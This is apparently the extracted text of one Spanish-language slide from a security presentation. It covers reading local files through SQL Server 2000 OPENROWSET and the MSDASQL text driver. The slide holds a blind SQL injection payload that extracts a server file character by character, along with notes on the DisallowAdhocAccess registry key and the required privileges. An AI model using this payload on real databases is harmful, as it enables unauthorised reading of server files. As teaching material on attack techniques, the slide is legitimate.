

# SQL Server 2K - External Data Sources
Solo tipos de ficheros conocidos:
Acceso a través de Drivers: Txt, csv, xls, mdb, log
And 200>ASCII (SUBSTRING(SELECT * FROM OPENROWSET('MSDASQL', 'Driver = {Microsoft Text Driver (*.txt; *.csv)};DefaultDir=C:\;','select top 1 * from c:\dir\target.txt’),1,1))
Privilegios
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\MSSQLServer\Providers\DisallowAdhocAccess=0
Por defecto esta clave no existe en el registro y solo los usuarios con el role Server Admin pueden utilizar estas funciones.
Permisos NTFS